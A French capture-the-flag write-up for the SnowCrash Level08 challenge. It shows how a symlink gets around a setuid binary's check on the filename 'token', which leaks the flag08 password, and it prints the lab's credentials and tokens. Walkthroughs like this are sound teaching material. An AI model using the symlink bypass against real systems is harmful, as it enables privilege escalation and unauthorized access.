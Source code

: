 # Level08

Une fois connecté avec le username:motdepasse level08:fiumuikeil55xe9cu4dood66h (obtenu dans le flag précédent), nous arrivons sur le home de l'utilisateur level08.  
Nous y trouvons un fichier et un exécutable.  
Effectuons quelques tests :  
```sh
level08@SnowCrash:~$ ls
level08  token
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ touch /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
level08@SnowCrash:~$ echo "hello" > /tmp/test
level08@SnowCrash:~$ ./level08 /tmp/test
hello
```

Nous pouvons voir que l'exécutable prend en paramétre un fichier et le lis, pourtant il ne marche pas avec `token`.  
Du coté de `strings level08` nous avons :  
```
%s [file to read]
token
You may not access '%s'
Unable to open %s
Unable to read fd %d
```
Nous pouvons supposer que l'exécutable ne lis pas le fichier si il porte le nom `token`.
```sh
level08@SnowCrash:~$ touch /tmp/token
level08@SnowCrash:~$ ./level08 /tmp/token
You may not access '/tmp/token'
```
Effectivement les fichers nommé "token" ne sont pas lu.  
Nous allons faire un lien symbolique sur le fichier token afin qu'il puisse être lu par l'exécutable :  
```sh
level08@SnowCrash:~$ ln -s ~/token /tmp/flag
level08@SnowCrash:~$ ./level08 /tmp/flag
quif5eloekouj29ke0vouxean
level08@SnowCrash:~$ su flag08
Password:
Don't forget to launch getflag !
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
